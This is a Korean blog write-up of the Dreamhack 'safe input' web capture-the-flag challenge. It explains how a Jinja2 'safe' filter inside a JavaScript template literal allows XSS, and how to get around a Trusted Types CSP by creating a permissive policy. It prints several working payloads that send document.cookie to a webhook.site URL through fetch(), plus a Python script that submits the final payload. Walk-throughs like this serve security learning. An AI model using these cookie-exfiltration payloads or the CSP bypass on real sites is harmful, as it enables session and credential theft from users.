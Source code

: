 ```yaml
---
layout: single
title: "[Dreamhack] safe input write-up"
date: 2025-01-13 23:00 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## [Dreamhack] safe input

### 😊 문제 설명

- It's so safe that it can't be seen.

<br>

### ✏️ 풀이

<br>

문제 사이트에 접속해보면 /test 경로로 바로 리다이렉트 된다.

![{CA4C553B-F9C9-4834-B07B-0839DA511D0C}](/images/2025-01-11-safe-input/{CA4C553B-F9C9-4834-B07B-0839DA511D0C}.png)

<br>

app.py 소스 코드를 보면 `/` 경로로 GET 요청을 하면 `/test` 경로로 리다이렉트 하고 `/test` 경로에서는 test.html 파일을 보여주고 `text` 파라미터를 받아와서 `test` 라는 변수에 넣어 리턴해준다.

```python
@app.route("/", methods=["GET"])
def index():
    return redirect("/test")

@app.route("/test", methods=["GET"])
def intro():
    text = request.args.get("text")
    return render_template("test.html", test=text)
```

<br>

또한 아래의 `access_page` 함수와 `/report` 경로의 소스 코드를 살펴보면 `/report` 경로에서는 `text` 파라미터를 받아와서 `access_page` 함수의 인자에 넣어주고 쿠키 값에 FLAG 값을 설정한 것으로 보아 XSS 문제인 것 같다.

```python
def access_page(text, cookie={"name": "name", "value": "value"}):
    try:
        service = Service(executable_path="/chromedriver-linux64/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get(f"http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(f"http://127.0.0.1:8000/test?text={quote(text)}")
        sleep(1)
    except Exception as e:
        print(e, flush=True)
        driver.quit()
        return False
    driver.quit()
    return True

@app.route("/report", methods=["GET", "POST"])
def report():
    if request.method == "POST":
        text = request.form.get("text")
        if not text:
            return render_template("report.html", msg="fail")

        else:
            if access_page(text, cookie={"name": "flag", "value": FLAG}):
                return render_template("report.html", message="Success")
            else:
                return render_template("report.html", message="fail")
    else:
        return render_template("report.html")
```

<br>

test.html의 script 태그를 살펴보면 jinja2 템플릿을 사용하고 있는 것을 알 수 있는데, `test` 값에 `safe` 필터가 적용되어 있는 것을 볼 수 있다. 이를 찾아보면 `safe` 필터는 HTML 이스케이프 없이 출력하도록 해주어 XSS 취약점을 유발할 수 있다.

```html
<body>
    <div class="container">
        <div class="note-header">Note</div>
        <div id="content" class="note-content">Hi everyone!</div>
        <div class="note-footer">This is Test</div>
    </div>
    <script>
            const contentElement = document.getElementById('content');
            const safeInput = "Test: " + `{{test|safe}}`;
    </script>
</body>
```

<br>

app.py 소스 코드에서 봤던 것처럼 `text` 파라미터에 인자를 넣어주면 값을 `test`에 넣어주고, 백틱으로 감싸져 있기 때문에 `${alert(1)}`을 `text` 파라미터에 넣어주면 alert(1)이 실행되는 것을 볼 수 있다.

![{9DE507F1-A3B5-4972-977B-F672DAFDAFD2}](/images/2025-01-11-safe-input/{9DE507F1-A3B5-4972-977B-F672DAFDAFD2}.png)


<br>

아래와 같은 페이로드를 사용해 POST 메소드로 webhook에 document.cookie를 보내보니 요청은 오는데 에러가 발생해서 쿠키 값이 안가는 거 같다.

```text
${fetch('https://webhook.site/081276fb-f3d6-47c8-9bd2-0dac98fe8ec3', {method: 'POST', body: document.cookie})}
```

![{266D0ACF-032B-41FE-916D-FFA54DDB50C9}](/images/2025-01-11-safe-input/{266D0ACF-032B-41FE-916D-FFA54DDB50C9}.png)

<br>

그래서 아래와 같이 GET 메소드로 바꿔 보내보면 임의로 설정한 쿠키 값이 보내진다. 그리고 report 페이지에서 입력하고 보내보니 Fail이 뜬다. 아마 Console 창에 나타난 오류 때문인 것 같다.

```text
${fetch(`https://webhook.site/081276fb-f3d6-47c8-9bd2-0dac98fe8ec3?cookie=${document.cookie}`)}
```

![{5C2FC581-96C3-4937-9A77-6A10C0B6A61B}](/images/2025-01-11-safe-input/{5C2FC581-96C3-4937-9A77-6A10C0B6A61B}.png)

<img src="/images/2025-01-11-safe-input/{FA02176E-80D8-4B9B-9E6C-B7CDEAFE63D1}.png" alt="{FA02176E-80D8-4B9B-9E6C-B7CDEAFE63D1}" style="zoom:50%;" />

<br>

자세히보니 test.html에 아래와 같은 CSP가 적용되어 있었다. Trusted Types 정책이 적용되어 있는데 script와 관련된 동적 콘텐츠 조작 시 반드시 Trusted Types 객체를 사용해야 한다. 보면 script 태그를 사용할 때 16007a93f75cde3710032976adfbcbab 라는 이름의 Tursted Types 객체를 사용하라고 되어 있는데  따로 설정된 정책이 없다.

```html
<meta http-equiv="Content-Security-Policy" content="require-trusted-types-for 'script'; trusted-types 16007a93f75cde3710032976adfbcbab;">
```

<br>

https://developer.mozilla.org/en-US/docs/Web/API/Trusted_Types_API 에서 사용하는 API를 사용해서 아래와 같이 페이로드를 작성하면 flag 값을 얻을 수 있다.

```python
from requests import post

URL = 'http://host1.dreamhack.games:9659'

payload = 'a`+"<img src=x onerror=fetch(\'https://webhook.site/081276fb-f3d6-47c8-9bd2-0dac98fe8ec3?cookie=\'+document.cookie)>";let policy=window.trustedTypes.createPolicy("16007a93f75cde3710032976adfbcbab",{createHTML:(input)=>{return input;}});contentElement.innerHTML=policy.createHTML(safeInput);//'

post(f'{URL}/report', data={"text": payload})

```

![{6438EB5F-D688-49B3-A64A-CD0079267123}](/images/2025-01-11-safe-input/{6438EB5F-D688-49B3-A64A-CD0079267123}.png)
